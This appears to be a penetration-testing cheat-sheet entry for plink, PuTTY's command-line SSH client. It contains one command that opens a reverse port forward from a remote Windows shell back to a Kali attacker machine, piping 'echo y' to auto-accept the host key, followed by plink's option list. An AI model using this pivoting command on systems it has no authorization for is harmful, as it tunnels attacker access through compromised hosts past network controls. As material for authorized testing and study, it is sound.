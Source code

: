 

Cmdline SSH client (part of PUTTY)  
  
  
Usage Ex:  
```bash
cmd.exe /c echo y | plink.exe -ssh -l kali -pw <kali_pw> <r_ip>:<r_port>:127.0.0.1:<l_port> <r_ip>
```


**cmd.exe /c echo y** - As first time plink connects to a host, it'll attempt to cache the host key in the registry.  
	Likely we won't have the necessary interactivity w/in our remote shell, hence this addition.  
	If doing through rdesktop, there's no need.  
  
  
**-V**      Print version information and exit  
**-pgpfp**      Print PGP key fingerprints and exit  
**-v**      Show verbose messages  
**-load**      _sessname_ Load settings from saved session  
**-ssh -telnet -rlogin -raw**      Force use of a particular protocol  
**-P** _port_      Connect to specified port  
**-l** _user_      Connect with specified username  
**-batch**      Disable all interactive prompts  
  
The following options only apply to SSH connections:  
  
**-pw**      Passw login with specified password  
**-D** _\[listen-IP\:\]listen-port_      Dynamic SOCKS-based port forwarding  
**-L** _\[listen-IP\:\]listen-port:host:port_      Forward local port to remote address  
**-R** _\[listen-IP\:\]listen-port:host:port_      Forward remote port to local address  
**-X** / **-x**      Enable / disable X11 forwarding  
**-A** / **-a**      Enable / disable agent forwarding  
**-t** / **-T**      Enable / disable pty allocation  
**-1** / **-2**      Force use of particular protocol version  
**-4** / **-6**      Force use of IPv4 or IPv6  
**-C**      Enable compression  
**-i** _keyfile_      Private key file for authentication  
**-noagent**      Disable use of Pageant  
**-agent**      Enable use of Pageant  
**-m** _file_      Read remote command(s) from file  
**-s**      Semote command is an SSH subsystem (SSH-2 only)  
**-N**      Don't start a shell/command (SSH-2 only)  
**-nc** _host:port_      Open tunnel in place of session (SSH-2 only)